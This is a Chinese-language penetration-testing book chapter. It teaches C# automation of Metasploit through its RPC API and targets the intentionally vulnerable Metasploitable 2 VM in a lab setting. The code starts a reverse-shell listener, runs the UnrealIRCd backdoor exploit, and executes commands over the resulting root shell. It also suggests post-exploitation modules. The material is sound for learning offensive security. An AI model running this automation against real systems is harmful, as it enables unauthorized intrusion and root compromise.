



# 第十一章

11

自动化 Metasploit

Metasploit 是事实上的开源渗透测试框架。Metasploit 用 Ruby 编写，既是一个漏洞数据库，也是一个漏洞开发和渗透测试的框架。但是，Metasploit 的许多强大功能，比如其远程过程调用（RPC）API，经常被忽视。

本章将介绍 Metasploit RPC，并展示如何使用它以编程方式操作 Metasploit Framework。你将学习如何使用 RPC 自动化 Metasploit，利用它对 Metasploitable 2 进行攻击，Metasploitable 2 是一台故意设计为漏洞机器的 Linux 系统，旨在帮助学习如何使用 Metasploit。红队或进攻性安全专家应注意，许多繁琐的工作可以通过自动化来完成，从而腾出更多时间专注于复杂或不明显的漏洞。通过 API 驱动的 Metasploit Framework，你将能够以可扩展的方式自动化诸如主机发现甚至网络利用等繁琐任务。

运行 RPC 服务器

由于我们在 第四章 已经设置了 Metasploit，这里不再赘述设置过程。Listing 11-1 显示了运行 RPC 服务器时需要输入的内容。

> $ msfrpcd -U username -P password -S -f  Listing 11-1: 运行 RPC 服务器

-U 和 -P 参数代表用于验证 RPC 的用户名和密码。你可以为用户名或密码选择任何值，但当我们编写 C# 代码时需要用到这些凭证。-S 参数禁用 SSL。（自签名证书会让事情变得更复杂，因此我们暂时忽略它们。）最后，-f 参数告诉 RPC 接口在前台运行，以便更容易监控 RPC 进程。

要使用正在运行的新 RPC 接口，首先启动一个新终端，或者在没有 -f 选项的情况下重启 msfrpcd（该选项启动 msfrpcd 并将其放入后台运行），然后使用 Metasploit 的 msfrpc 客户端连接到刚刚启动的 RPC 监听器，并开始发出调用。不过需要提醒的是：msfrpc 客户端的界面相当晦涩难懂——它很难阅读，而且错误信息不直观。Listing 11-2 展示了如何使用 Metasploit 提供的 msfrpc 客户端进行身份验证。

> $ msfrpc ➊-U  username ➋-P  password ➌-S ➍-a 127.0.0.1
> 
> [*] 'rpc' 对象包含 RPC 客户端接口
> 
> [*] 使用 rpc.call('group.command') 发出 RPC 调用
> 
> >> ➎rpc.call('auth.login', 'username', 'password')
> 
> => {"result"=>"success", "token"=>"TEMPZYFJ3CWFxqnBt9AfjvofOeuhKbbx"}

Listing 11-2: 使用 msfrpc 客户端与 msfrpcd 服务器进行身份验证

为了通过 msfrpcd 连接到 RPC 监听器，我们向 msfrpcd 传递几个参数。我们为 RPC 监听器设置的用户名和密码用于身份验证，通过-U ➊和-P ➋传递。-S 参数 ➌告诉 msfrpc 不要使用 SSL 连接监听器，-a 参数 ➍是监听器连接的 IP 地址。由于我们启动 msfrpcd 实例时没有指定监听的 IP 地址，因此默认使用 127.0.0.1 地址。

一旦连接到 RPC 监听器，我们可以使用 rpc.call() ➎来调用可用的 API 方法。我们将使用 auth.login 远程过程方法进行测试，因为它将使用我们传递的相同用户名和密码作为参数。当你调用 rpc.call()时，RPC 方法和参数会被打包成一个序列化的 MSGPACK 二进制数据块，通过 HTTP POST 请求以 binary/message-pack 的内容类型发送到 RPC 服务器。这些是需要注意的重要点，因为我们在 C#中也需要做同样的事情与 RPC 服务器进行通信。

我们已经有了很多关于 HTTP 库的经验，但 MSGPACK 序列化肯定不是一个典型的 HTTP 序列化格式（你更可能看到 XML 或 JSON）。MSGPACK 使得 C#可以非常高效地从 Ruby RPC 服务器读取和响应复杂数据，正如使用 JSON 或 XML 也可能是两个语言之间的桥梁。当我们使用 MSGPACK 时，序列化的工作方式应该会变得更加清晰。

安装 Metasploitable

Metasploitable 2 存在一个特别容易利用的漏洞：一个被植入后门的 Unreal IRC 服务器。这是一个很好的示例，展示了我们可以用 Metasploit RPC 来攻克的漏洞，且配有 Metasploit 模块。你可以从 Rapid7 的[`information.rapid7.com/metasploitable-download.html`](https://information.rapid7.com/metasploitable-download.html)或 VulnHub 的[`www.vulnhub.com/`](https://www.vulnhub.com/)下载 Metasploitable 2。

Metasploitable 以 VMDK 镜像文件形式打包在一个 ZIP 压缩包中，因此将其安装到 VirtualBox 并不完全简单。解压 Metasploitable 虚拟机并打开 VirtualBox 后，按照以下步骤操作：

1.  点击 VirtualBox 左上角的“新建”按钮，打开向导。

1.  创建一个名为 Metasploitable 的新虚拟机。

1.  将类型设置为 Linux，版本保持为 Ubuntu（64 位）；然后点击继续或下一步。

1.  为虚拟机分配 512 MB 至 1 GB 的 RAM，然后点击继续或下一步。

1.  在硬盘对话框中，选择“使用现有的虚拟硬盘文件”选项。

1.  在硬盘下拉菜单旁边有一个小文件夹图标。点击它并导航到你解压 Metasploitable 的文件夹。

1.  选择 Metasploitable VMDK 文件并在对话框的右下角点击“打开”。

1.  在硬盘对话框中，点击“创建”按钮。这将关闭虚拟机向导。

1.  通过点击 VirtualBox 窗口顶部的“启动”按钮来启动新的虚拟机。

一旦虚拟设备启动完成，我们需要它的 IP 地址。获取 IP 地址的方法是：设备启动后，用凭据 msfadmin/msfadmin 登录，然后在 bash shell 中输入 ifconfig 命令，将 IP 配置信息打印到屏幕上。

获取 MSGPACK 库

在开始编写 C#代码来驱动我们的 Metasploit 实例之前，我们需要再获取一件事：MSGPACK 库。这个库不是 C#核心库的一部分，因此我们必须使用 NuGet，它是一个.NET 包管理器，类似于 Python 的 pip 或 Ruby 的 gem，来安装我们想要使用的正确库。默认情况下，Visual Studio 和 Xamarin Studio 对 NuGet 包管理有很好的支持。然而，适用于 Linux 发行版的免费 MonoDevelop 在 NuGet 功能方面没有这些 IDE 那么先进。让我们来看一下如何在 MonoDevelop 中安装正确的 MSGPACK 库。这有点曲折，但使用 Xamarin Studio 和 Visual Studio 会更简单，因为它们不需要你使用特定版本的 MSGPACK 库。

为 MonoDevelop 安装 NuGet 包管理器

首先，你可能需要使用 MonoDevelop 中的“附加组件管理器”安装 NuGet 附加组件。如果是这样，打开 MonoDevelop 并按照以下步骤安装 NuGet 包管理器：

1.  进入“工具” ▸ “附加组件管理器”菜单项。

1.  点击“图库”选项卡。

1.  在“仓库”下拉列表中，选择“管理仓库”。

1.  点击“添加”按钮以添加新仓库。

1.  在“添加新仓库”对话框中，确保选中“注册在线仓库”。在 URL 文本框中，输入以下 URL：http://mrward.github.com/monodevelop-nuget-addin-repository/4.0/main.mrep

1.  点击“确定”并通过点击“关闭”关闭“添加新仓库”对话框。

安装完新仓库后，你可以轻松安装 NuGet 包管理器。关闭仓库对话框后，你应该会回到附加组件管理器的“图库”选项卡。在附加组件管理器的右上角有一个文本框，可以用来搜索可安装的附加组件。输入 nuget 到该框中，它会筛选出 NuGet 包管理器。选择 NuGet 扩展，然后点击“安装”按钮（见图 11-1）。

图 11-1：MonoDevelop 附加组件管理器安装 NuGet

安装 MSGPACK 库

现在，NuGet 包管理器已经安装，我们可以安装 MSGPACK 库了。不过有一个小问题。对于 MonoDevelop 来说，最适合安装的 MSGPACK 库版本是 0.6.8（为了兼容性），但 MonoDevelop 中的 NuGet 管理器不允许我们指定版本，它会尝试安装最新版本。我们需要手动向项目中添加一个 packages.config 文件，指定我们想要的库版本，如 列表 11-3 所示。右键点击 MonoDevelop、Xamarin Studio 或 Visual Studio 中的 Metasploit 项目，在弹出的菜单中选择 添加 ▸ 新建文件，并添加一个名为 packages.config 的新文件。

> <?xml version="1.0" encoding="utf-8"?>
> 
> <packages>
> 
> <package id="MsgPack.Cli" version="0.6.8" targetFramework="net45" />
> 
> </packages> 列表 11-3：指定 MsgPack.Cli 库正确版本的 packages.config 文件

创建完 packages.config 文件后，重新启动 MonoDevelop 并打开你创建的项目，以便运行我们接下来将编写的 Metasploit 代码。现在，你应该能够右键点击项目引用，点击 “恢复 NuGet 包” 菜单项，这将确保 packages.config 文件中的包以正确的版本安装。

引用 MSGPACK 库

安装好正确版本的 MSGPACK 库后，我们现在可以将其添加为项目的引用，以便开始编写代码。通常，NuGet 会为我们处理这一切，但在 MonoDevelop 中有一个小 bug，我们必须绕过它。右键点击 MonoDevelop 解决方案面板中的 References 文件夹，选择 编辑引用...（参见 图 11-2）。

图 11-2：解决方案面板中的 编辑引用... 菜单项

编辑引用对话框应该会显示出几个可用的标签页，如 图 11-3 所示。你需要选择 .Net Assembly 标签页，然后导航到项目根目录中的 packages 文件夹下的 MsgPack.dll 程序集。这个 packages 文件夹是 NuGet 在你下载 MSGPACK 库时自动创建的。

图 11-3：编辑引用对话框

在找到 MsgPack.dll 库后，选择它并点击对话框右下角的 OK 按钮。这样应该会将 MsgPack.dll 库添加到你的项目中，以便你可以开始使用类并在 C# 源文件中引用该库。

编写 MetasploitSession 类

现在我们需要构建一个 MetasploitSession 类来与 RPC 服务器进行通信，如 列表 11-4 所示。

> public class MetasploitSession : IDisposable
> 
> {
> 
> string _host;
> 
> string _token;
> 
> public MetasploitSession(➊string username, string password, string host)
> 
> {
> 
> _host = host;
> 
> _token = null;
> 
> Dictionary<object, object> response = this.➋Authenticate(username, password);
> 
> ➌bool loggedIn = !response.ContainsKey("error");
> 
> if (!loggedIn)
> 
> ➍throw new Exception(response["error_message"] as string);
> 
> ➎if ((response["result"] as string) == "success")
> 
> _token = response["token"] as string;
> 
> }
> 
> public string ➏Token
> 
> {
> 
> get { return _token; }
> 
> }
> 
> public Dictionary<object, object> Authenticate(string username, string password)
> 
> {
> 
> return this.➐Execute("auth.login", username, password);
> 
> }

第 11-4 节：MetasploitSession 类构造函数、Token 属性和 Authenticate()方法

MetasploitSession 构造函数接收三个参数，如➊所示：用于认证的用户名和密码，以及要连接的主机。我们使用提供的用户名和密码调用 Authenticate() ➋，然后通过检查响应是否包含错误来验证认证 ➌。如果认证失败，则抛出异常 ➍。如果认证成功，我们将 _token 变量赋值为 RPC 返回的认证令牌 ➎，并将 Token ➏设为 public。Authenticate()方法调用 Execute()方法 ➐，传入 auth.login 作为 RPC 方法以及用户名和密码。

创建 Execute()方法用于 HTTP 请求并与 MSGPACK 交互

Execute()方法（见第 11-5 节）是 RPC 库的核心，负责创建和发送 HTTP 请求，并将 RPC 方法和参数序列化为 MSGPACK。

> public Dictionary<object, object> Execute(string method, params object[] args)
> 
> {
> 
> if ➊(method != "auth.login" && string.IsNullOrEmpty(_token))
> 
> throw new Exception("未认证。");
> 
> HttpWebRequest request = (HttpWebRequest)WebRequest.Create(_host);
> 
> request.ContentType = ➋"binary/message-pack";
> 
> request.Method = "POST";
> 
> request.KeepAlive = true;
> 
> using (Stream requestStream = request.GetRequestStream())
> 
> using (Packer msgpackWriter = ➌Packer.Create(requestStream))
> 
> {
> 
> bool sendToken = (!string.IsNullOrEmpty(_token) && method != "auth.login");
> 
> msgpackWriter.➍PackArrayHeader(1 + (sendToken ? 1 : 0) + args.Length);
> 
> msgpackWriter.Pack(method);
> 
> if (sendToken)
> 
> msgpackWriter.Pack(_token);
> 
> ➎foreach (object arg in args)
> 
> msgpackWriter.Pack(arg);
> 
> }
> 
> ➏using (MemoryStream mstream = new MemoryStream())
> 
> {
> 
> using (WebResponse response = request.GetResponse())
> 
> using (Stream rstream = response.GetResponseStream())
> 
> rstream.CopyTo(mstream);
> 
> mstream.Position = 0;
> 
> MessagePackObjectDictionary resp =
> 
> Unpacking.➐UnpackObject(mstream).AsDictionary();
> 
> return MessagePackToDictionary(resp);
> 
> }
> 
> }

第 11-5 节：MetasploitSession 类的 Execute()方法

在➊处，我们检查是否传递了 auth.login 作为 RPC 方法，这是唯一一个不需要认证的 RPC 方法。如果方法不是 auth.login 而且我们没有设置认证令牌，就会抛出异常，因为没有认证的命令执行会失败。

一旦我们确认有足够的认证信息来进行 API HTTP 请求，我们会将 ContentType 设置为 binary/message-pack ➋，以便 API 知道我们正在将 MSGPACK 数据发送到 HTTP 正文中。接着，我们通过将 HTTP 请求流传递给 Packer.Create() 方法 ➌ 来创建一个 Packer 类。Packer 类（在 MsgPack.Cli 库中定义）是一个真正节省时间的工具，它允许我们将 RPC 方法和参数写入 HTTP 请求流中。我们将使用 Packer 类中的各种打包方法来序列化并将 RPC 方法和参数写入请求流。

我们使用 PackArrayHeader() ➘ 写入我们正在写入请求流的信息总数。例如，auth.login 方法有三条信息：方法名以及两个参数：用户名和密码。我们首先将数字 3 写入流中。然后，我们将字符串 auth.login、username 和 password 使用 Pack 写入流中。我们将使用这种将 API 方法和参数序列化并作为 HTTP 正文发送的通用过程来向 Metasploit RPC 发送我们的 API 请求。

在将 RPC 方法写入请求流之后，如果需要，我们会写入认证令牌。然后，我们继续在 foreach 循环 ➎ 中打包 RPC 方法参数，以完成 HTTP 请求并发起 API 调用。

Execute() 方法的其余部分读取使用 MSGPACK 序列化的 HTTP 响应，并将其转换为我们可以使用的 C# 类。我们首先使用 MemoryStream() ➏ 将响应读取到字节数组中。然后，我们使用 UnpackObject() ➐ 反序列化响应，传入字节数组作为唯一参数，并将对象作为 MSGPACK 字典返回。然而，这个 MSGPACK 字典并不是我们想要的。字典中包含的值——例如字符串——都需要转换为它们的 C# 类对应物，以便我们能更方便地使用它们。为此，我们将 MSGPACK 字典传递给 MessagePackToDictionary() 方法（将在下一节讨论）。

从 MSGPACK 转换响应数据

接下来的几个方法主要用于将 Metasploit 的 MSGPACK 格式的 API 响应转换为我们可以更容易使用的 C# 类。

使用 MessagePackToDictionary() 将 MSGPACK 对象转换为 C# 字典

MessagePackToDictionary() 方法如 Listing 11-6 所示，它在 Listing 11-5 的 Execute() 方法末尾被引入。它接受一个 MessagePackObjectDictionary，并将其转换为 C# 字典（用于存储键/值对的类），这与 Ruby 或 Python 中的哈希类似。

> Dictionary<object,object> MessagePackToDictionary(➊MessagePackObjectDictionary dict)
> 
> {
> 
> Dictionary<object, object> newDict = new ➋Dictionary<object, object>();
> 
> foreach (var pair in ➌dict)
> 
> {
> 
> object newKey = ➍GetObject(pair.Key);
> 
> if (pair.Value.IsTypeOf<MessagePackObjectDictionary>() == true)
> 
> newDict[newKey] = MessagePackToDictionary(pair.Value.AsDictionary());
> 
> else
> 
> newDict[newKey] = ➎GetObject(pair.Value);
> 
> }
> 
> ➏return newDict;
> 
> }

列表 11-6：MessagePackToDictionary() 方法

MessagePackToDictionary()方法接受一个参数➊，即我们要转换为 C#字典的 MSGPACK 字典。一旦我们创建了 C#字典➋，我们将通过遍历从 MSGPACK 字典中传递的每个键/值对将转换后的 MSGPACK 对象放入其中➌。首先，我们将获取给定键的 C#对象，作为当前循环迭代的结果➍，然后我们将测试相应的值以确定如何最好地处理它。例如，如果值是字典，我们通过调用 MessagePackToDictionary()方法引入递归。否则，如果值不是另一个字典，我们将其转换为对应的 C#类型，使用 GetObject()方法，这将在稍后定义➎。最后，我们返回包含 C#类型而非 MSGPACK 类型的新字典➏。

使用 GetObject()将 MSGPACK 对象转换为 C#对象

列表 11-7 显示了我们如何实现列表 11-6 中第➍所示的 GetObject()方法。该方法接受一个 MessagePackObject，将其转换为 C#类，并返回新的对象。

> private object GetObject(MessagePackObject str)
> 
> {
> 
> ➊if (str.UnderlyingType == typeof(byte[]))
> 
> return System.Text.Encoding.ASCII.GetString(str.AsBinary());
> 
> else if (str.UnderlyingType == typeof(string))
> 
> return str.AsString();
> 
> else if (str.UnderlyingType == typeof(byte))
> 
> return str.AsByte();
> 
> else if (str.UnderlyingType == typeof(bool))
> 
> return str.AsBoolean();
> 
> ➋return null;
> 
> }

列表 11-7：MetasploitSession 类的 GetObject() 方法

GetObject() 方法检查一个对象是否属于某种类型，例如字符串或布尔值，如果匹配则返回该对象对应的 C#类型。在➊位置，我们将任何 UnderlyingType 为字节数组的 MessagePackObject 转换为字符串并返回新的字符串。由于从 Metasploit 发送的某些“字符串”实际上只是字节数组，我们必须在开始时将这些字节数组转换为字符串，否则每次使用时都需要强制转换为字符串。频繁的强制转换在计算上往往效率低下，因此最好在一开始就将所有值转换。

其余的 if 语句检查并转换其他数据类型。如果我们到达最后的 else if 语句且无法返回新的对象，我们将返回 null ➋。这允许我们测试转换到其他类型是否成功。如果返回 null，我们必须找出为什么无法将 MSGPACK 对象转换为另一个 C#类。

使用 Dispose()清理 RPC 会话

在列表 11-8 中展示的 Dispose()方法会在垃圾回收期间清理我们的 RPC 会话。

> public void Dispose()
> 
> {
> 
> if (this.➊Token != null)
> 
> {
> 
> this.Execute("auth.logout", this.Token);
> 
> _token = null;
> 
> }
> 
> }

列表 11-8：MetasploitSession 类的 Dispose() 方法

如果我们的 Token 属性 ➊ 不是 null，则我们假定已经通过认证，调用 auth.logout 并将认证 token 作为唯一参数传递，然后将本地 _token 变量赋值为 null。

测试 session 类

现在可以通过显示 RPC 版本来测试我们的 session 类（参见 列表 11-9）。当 session 类工作并完成后，我们可以真正开始驱动 Metasploit，并继续自动化利用 Metasploitable。

> public static void Main(string[] args)
> 
> {
> 
> string listenAddr = ➊args[0];
> 
> using (MetasploitSession session = new ➋MetasploitSession("username",
> 
> "password", "http://"+listenAddr+":55553/api"))
> 
> {
> 
> if (string.IsNullOrEmpty(session.Token))
> 
> throw new Exception("登录失败。检查凭证");
> 
> Dictionary<object, object> version = session.➌Execute("core.version");
> 
> Console.WriteLine(➍"Version: " + version["version"]);
> 
> Console.WriteLine(➎"Ruby: " + version["ruby"]);
> 
> Console.WriteLine(➏"API: " + version["api"]);
> 
> }
> 
> }

列表 11-9：测试 MetasploitSession 类以从 RPC 接口获取版本信息

这个小测试程序需要一个参数：Metasploit 主机的 IP 地址。我们做的第一件事是将第一个参数分配给 listenAddr 变量 ➊，该变量用于创建新的 MetasploitSession ➋。认证通过后，我们调用 core.version RPC 方法 ➌，显示当前使用的 Metasploit ➍、Ruby ➎ 和 API ➏ 版本，输出如 列表 11-10 所示。

> $ ./ch11_automating_metasploit.exe 192.168.0.2
> 
> Version: 4.11.8-dev-a030179
> 
> Ruby: 2.1.6 x86_64-darwin14.0 2015-04-13
> 
> API: 1.0

列表 11-10：运行 MetasploitSession 测试打印 API、Ruby 和 Metasploit 版本信息

编写 MetasploitManager 类

如 列表 11-11 所示，MetasploitManager 类封装了我们通过 RPC 编程驱动利用所需的一些基本功能，包括列出会话、读取会话 Shell 和执行模块的能力。

> public class MetasploitManager : IDisposable
> 
> {
> 
> private MetasploitSession _session;
> 
> public MetasploitManager(➊MetasploitSession session)
> 
> {
> 
> _session = session;
> 
> }
> 
> public Dictionary<object, object> ➋ListJobs()
> 
> {
> 
> return _session.Execute("job.list");
> 
> }
> 
> public Dictionary<object, object> StopJob(string jobID)
> 
> {
> 
> return _session.Execute("job.stop", jobID);
> 
> }
> 
> public Dictionary<object, object> ➌ExecuteModule(string moduleType, string moduleName,
> 
> Dictionary<object, object> options)
> 
> {
> 
> return _session.Execute("module.execute", moduleType, moduleName, options);
> 
> }
> 
> public Dictionary<object, object> ListSessions()
> 
> {
> 
> return _session.Execute("session.list");
> 
> }
> 
> public Dictionary<object, object> StopSession(string sessionID)
> 
> {
> 
> return _session.Execute("session.stop", sessionID);
> 
> }
> 
> public Dictionary<object, object> ➍ReadSessionShell(string sessionID, int? readPointer = null)
> 
> {
> 
> if (readPointer.HasValue)
> 
> return _session.Execute("session.shell_read", sessionID, readPointer.Value);
> 
> else
> 
> return _session.Execute("session.shell_read", sessionID);
> 
> }
> 
> public Dictionary<object, object> ➎WriteToSessionShell(string sessionID, string data)
> 
> {
> 
> return _session.Execute("session.shell_write", sessionID, data);
> 
> }
> 
> public void Dispose()
> 
> {
> 
> _session = null;
> 
> }
> 
> }

Listing 11-11: MetasploitManager 类

MetasploitManager 构造函数将 MetasploitSession ➊ 作为唯一参数，并将会话参数分配给一个本地类变量。该类中的其他方法只是封装了我们用于自动化利用 Metasploitable 2 的特定 RPC 方法。例如，我们使用 ListJobs() 方法 ➋ 来监控我们的 exploit，以便在 exploit 完成时知道，并可以在目标机器上运行命令。

我们使用 ReadSessionShell() 方法 ➍ 来读取运行命令时通过会话产生的任何输出。相反，WriteToSessionShell() 方法 ➎ 将任何命令写入 shell 以便执行。ExecuteModule() 方法 ➌ 接受一个要执行的模块和执行该模块时使用的选项。每个方法都使用 Execute() 执行给定的 RPC 方法，并将结果返回给调用者。我们将在接下来的章节中讨论每个方法，并完成驱动 Metasploit 的最后步骤。

整合所有内容

现在，我们可以使用我们的类开始通过 Metasploit 自动化利用过程。首先，编写一个 Main() 方法来监听连接回来的 shell，然后运行一个 exploit，使 Metasploitable 连接回我们的监听器并建立一个新会话（参见 Listing 11-12）。

> public static void Main(string[] args)
> 
> {
> 
> ➊string listenAddr = args[1];
> 
> int listenPort = 4444;
> 
> string payload = "cmd/unix/reverse";
> 
> using (➋MetasploitSession session = new MetasploitSession("username",
> 
> "password", "http://"+listenAddr+":55553/api"))
> 
> {
> 
> if (string.IsNullOrEmpty(session.➌Token))
> 
> throw new Exception("登录失败。检查凭据");
> 
> using (MetasploitManager manager = new ➍MetasploitManager(session))
> 
> {
> 
> Dictionary<object, object> response = null;
> 
> ➎Dictionary<object, object> opts = new Dictionary<object, object>();
> 
> opts["ExitOnSession"] = false;
> 
> opts["PAYLOAD"] = payload;
> 
> opts["LHOST"] = listenAddr;
> 
> opts["LPORT"] = listenPort;
> 
> response = manager.➏ExecuteModule("exploit", "multi/handler", opts);
> 
> object jobID = response["job_id"]; Listing 11-12: 开始使用 Main() 方法自动化 MetasploitSession 和 MetasploitManager 类

接下来，我们定义一些后续使用的变量 ➊：Metasploit 用于监听回连接的地址和端口，以及要发送到 Metasploitable 的有效载荷。然后，我们创建一个新的 MetasploitSession 类 ➋ 并检查会话的 Token 属性 ➌ 以确认身份验证。确认身份后，我们将会话传递给新的 MetasploitManager ➍，以便我们开始利用过程。

在 ➎ 处，我们创建了一个字典来存储在开始监听回连时发送给 Metasploit 的选项，即 ExitOnSession、PAYLOAD、LHOST 和 LPORT。ExitOnSession 选项是一个布尔值，用来指示当会话连接时监听器是否会停止。如果这个值为 true，监听器将停止；如果为 false，监听器将继续监听新的 shell。PAYLOAD 选项是一个字符串，用来告诉 Metasploit 监听器应该期待什么样的回连负载。LPORT 和 LHOST 分别是要监听的端口和 IP 地址。我们将这些选项传递给 multi/handler 漏洞利用模块（它监听来自 Metasploitable 的回连 shell），并通过 ExecuteModule() ➏ 启动一个任务来监听回连 shell。ExecuteModule() 返回的任务 ID 被存储以备后续使用。

运行漏洞利用

列表 11-13 显示了如何添加代码来对 Metasploitable 执行实际的漏洞利用。

> opts = new Dictionary<object, object>();
> 
> opts["RHOST"] = args[0];
> 
> opts["DisablePayloadHandler"] = true;
> 
> opts["LHOST"] = listenAddr;
> 
> opts["LPORT"] = listenPort;
> 
> opts["PAYLOAD"] = payload;
> 
> manager.➊ExecuteModule("exploit", "unix/irc/unreal_ircd_3281_backdoor", opts); 列表 11-13：通过 RPC 运行 Unreal IRCD 漏洞利用

正如我们之前所做的，我们在调用 ExecuteModule() ➊ 之前在字典中设置了模块的数据存储选项，并传递了 unix/irc/unreal_ircd_3281_backdoor 漏洞利用模块名称和选项（参见列表 11-14）。

> response = manager.➊ListJobs();
> 
> while (response.➋ContainsValue("Exploit: unix/irc/unreal_ircd_3281_backdoor"))
> 
> {
> 
> Console.WriteLine("等待");
> 
> System.Threading.Thread.Sleep(10000);
> 
> response = manager.➌ListJobs();
> 
> }
> 
> response = manager.➍StopJob(jobID.ToString());

列表 11-14：观察直到 Unreal IRC 漏洞利用完成运行

ListJobs() 方法 ➊ 返回当前在 Metasploit 实例上运行的所有任务的字符串列表，模块名称包含在其中。如果列表中包含我们正在运行的模块名称，说明我们的漏洞利用尚未完成，因此我们需要等待一段时间并重新检查，直到我们的模块不再列出。如果 ContainsValue() ➋ 返回 true，表示我们的模块仍在运行，因此我们会暂停并再次调用 ListJobs() ➌，直到漏洞利用模块不再出现在任务列表中，这意味着它已经完成运行。现在我们应该已经有了一个 shell。最后，我们通过传递先前存储的任务 ID，使用 StopJob() ➍ 关闭 multi/handler 漏洞利用模块。

与 Shell 交互

现在我们应该能够与新的 shell 进行交互。为了测试连接，我们运行一个简单的命令来确认我们已经获得了所需的访问权限，如列表 11-15 所示。

> response = manager.➊ListSessions();
> 
> foreach (var pair in response)
> 
> {
> 
> string sessionID = pair.Key.ToString();
> 
> manager.➋WriteToSessionShell(sessionID, "id\n");
> 
> System.Threading.Thread.Sleep(1000);
> 
> response = manager.➌ReadSessionShell(sessionID);
> 
> Console.WriteLine("我们是用户: " + response ["data"]);
> 
> Console.WriteLine("结束会话： " + sessionID);
> 
> manager.➍StopSession(sessionID);
> 
> }
> 
> }
> 
> }
> 
> }

示例 11-15：检索当前会话列表并打印结果

在 ➊，我们调用 ListSessions()，它返回会话 ID 列表以及有关会话的一般信息，如会话类型。在我们遍历每个会话时（除非你多次运行漏洞，否则应该只有一个会话！），我们使用 WriteToSessionShell() 方法 ➋ 将 id 命令写入会话 shell，然后暂停片刻，使用 ReadSessionShell() ➌ 读取响应。最后，我们写出在被控制的系统上运行 id 命令的结果，然后使用 StopSession() ➍ 结束该会话。

打开 Shell

现在我们可以运行自动化程序并打开一些简单的 shell。程序必须使用两个参数运行：一个是要利用的主机，另一个是 Metasploit 用于监听 shell 的 IP 地址，正如示例 11-16 所示。

> $ ./ch11_automating_metasploit.exe 192.168.0.18 192.168.0.2
> 
> 等待中
> 
> 等待中
> 
> 等待中
> 
> 等待中
> 
> 等待中
> 
> 我们是用户：➊uid=0(root) gid=0(root)
> 
> 结束会话：3
> 
> $

示例 11-16：运行 Unreal IRC 漏洞自动化，显示我们已经获得 root shell

如果一切正常，我们现在应该已经获得 root shell ➊，并且我们可以使用 C# 自动化运行一些后期利用模块，或者在这个 shell 消失的情况下创建一些备用 shell。post/linux/gather/enum_configs 模块是 Linux 的常见后期利用模块。你可以更新你的自动化程序，在获得 Metasploitable 的初始 shell 后，运行这个或任何 post/linux/gather/enum_* 模块。

这只是你可以驱动 Metasploit 框架做的非常酷的事情的开始，从发现到利用。如前所述，Metasploit 甚至在后期利用阶段也有一席之地，提供了许多适用于多个操作系统的模块。你还可以通过辅助扫描模块（位于 auxiliary/scanner/*）来驱动发现。一个很棒的练习是，使用我们在第四章中编写的跨平台 Metasploit 负载，通过 RPC 动态生成 shellcode，并创建动态负载。

结论

在本章中，你学习了如何创建一组小的类，通过 RPC 接口以编程方式驱动 Metasploit。通过使用基本的 HTTP 库和第三方 MSGPACK 库，我们成功地利用了 Metasploitable 2 虚拟机的 Unreal IRCD 后门，然后在已被控制的机器上运行命令，以证明我们已经获得了 root shell。

本章我们仅触及了 Metasploit RPC 的强大功能。我强烈鼓励你深入挖掘将 Metasploit 应用于变更管理或软件开发生命周期过程中的潜力，以确保在公司环境中，错误配置或脆弱的软件不会通过自动扫描重新引入到数据中心或网络中。在家里，你可以轻松地通过 Metasploit 自带的 Nmap 集成功能，自动发现新设备，找出你的孩子可能没有告诉你的新手机或小玩意。当谈到 Metasploit 框架的灵活性和强大功能时，可能性是无限的。
